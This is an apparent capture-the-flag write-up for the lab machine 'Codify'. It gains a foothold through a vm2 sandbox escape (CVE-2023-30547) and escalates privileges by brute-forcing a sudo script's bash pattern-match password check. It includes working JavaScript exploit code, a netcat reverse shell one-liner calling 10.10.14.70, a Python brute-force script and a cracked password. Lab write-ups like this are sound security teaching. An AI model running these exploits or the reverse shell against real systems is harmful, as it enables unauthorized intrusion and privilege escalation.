








## 1. Enumeration

- As always, we will start by a simple nmap scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Foothold

- Let's visit the website:



- Cool, it allows us to run JS code in sandbox environment. Looks like it has something to do with some sandbox escape shit.

- After some research, we found a CVE (labeled CVE-2023-30547) about escape the sandbox restrictions and perform arbitrary code execution on target host systems.

- The exploit is pretty straight forward :v

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('ls -la');
}
`

console.log(vm.run(code));
```



- Create a revershell with:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').
    execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | sh -i 2>&1 | nc 10.10.14.70 4242 >/tmp/f');
}
`

console.log(vm.run(code));
```

- Messing around in the current directory doesn't reveal any useful information. Trying to print the environment variables tells us that we have access to `/var/www` directory. 

- Going to the `/var/www/contact` directory, we found a SQLite Database file: `tickets.db`. In there we found the username and password of another user (`joshua`):



- Crack this password with `john`:



- Connect via SSH and we have the flag:



## 3. Privilege Escalation

- Firstly, let's check if we have sudo permission on any files:



- Let's see what's inside that file:

```
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

- Seems like we can execute commands with sudo privilege if we provide the correct root password!

- Going back to the file, it has a security bug in this line: `[[ $DB_PASS == $USER_PASS ]]`

  - The comparison comes in double brackets, thus it reads `[[$DB_PASS == Pass]]` as `[[$DB_PASS == P*]]`
  - This allows us to brute force the password by guessing each character :P
  - More detail: <a href="https://www-baeldung-com.translate.goog/linux/bash-single-vs-double-brackets?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=vi&_x_tr_pto=wapp#4-pattern-matching">here</a>

- The easiest way is to build a python script that automates it:

```
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

- And we found the password: `kljh12k3jhaskjh12kjh3`



- Finally, run `su` to enter sudo mode and grab the flag:



---
## Reference
- https://www.quorumcyber.com/threat-intelligence/poc-exploit-released-for-vm2-vulnerability/
- https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244